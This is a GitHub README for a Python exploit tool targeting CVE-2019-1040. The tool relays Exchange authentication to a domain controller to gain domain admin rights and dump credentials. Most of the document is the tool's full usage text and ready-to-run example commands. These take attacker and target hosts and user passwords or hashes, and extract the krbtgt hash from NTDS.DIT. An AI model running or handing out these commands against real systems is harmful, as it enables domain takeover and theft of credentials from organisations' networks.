

# CVE-2019-1040

Great writeup! [Exploiting CVE-2019-1040 - Combining relay vulnerabilities for RCE and Domain Admin](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/) .

So, I wrote CVE-2019-1040.py for easy to use.

You can also check out my exchange2domain repo: https://github.com/ridter/exchange2domain, another way to use exchange to get DC.

## Requirements
These tools require [impacket](https://github.com/SecureAuthCorp/impacket). You can install it from pip with `pip install impacket`.

## Usage
```
usage: CVE-2019-1040.py [-h] [-u USERNAME] [-d DOMAIN] [-p PASSWORD]
                        [--hashes HASHES] [--smb-port [destination port]] -ah
                        ATTACKER_HOST [-ap ATTACKER_PORT] -th TARGET_HOST
                        [-t TIMEOUT]
                        [--exec-method [{smbexec,wmiexec,mmcexec}]]
                        [--just-dc-user USERNAME] [--debug]
                        EX_HOSTNAME

CVE-2019-1040 with Exchange

positional arguments:
  EX_HOSTNAME           Hostname/ip of the Exchange server

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --user USERNAME
                        username for authentication
  -d DOMAIN, --domain DOMAIN
                        domain the user is in (FQDN or NETBIOS domain name)
  -p PASSWORD, --password PASSWORD
                        Password for authentication, will prompt if not
                        specified and no NT:NTLM hashes are supplied
  --hashes HASHES       LM:NLTM hashes
  --smb-port [destination port]
                        Destination port to connect to SMB Server
  -ah ATTACKER_HOST, --attacker-host ATTACKER_HOST
                        Attacker hostname or IP
  -th TARGET_HOST, --target-host TARGET_HOST
                        Hostname or IP of the DC
  -t TIMEOUT, --timeout TIMEOUT
                        timeout in seconds
  --exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using
                        -use-vss). Default: smbexec
  --just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified.
                        Only available for DRSUAPI approach.
  --debug               Enable debug output
```

example:
```
python CVE-2019-1040.py -ah attackterip -u user -p password -d domain.com -th DCip MailServerip 
python CVE-2019-1040.py -ah attackterip -u user --hashes userhash -d domain.com -th DCip MailServerip 
```


If you only want to dump `krbtgt`, use `--just-dc-user`.

example:
```
python CVE-2019-1040.py -ah attackterip -u user -p password -d domain.com -th DCip MailServerip  --just-dc-user krbtgt
python CVE-2019-1040.py -ah attackterip -u user --hashes userhash -d domain.com -th DCip MailServerip --just-dc-user krbtgt
```

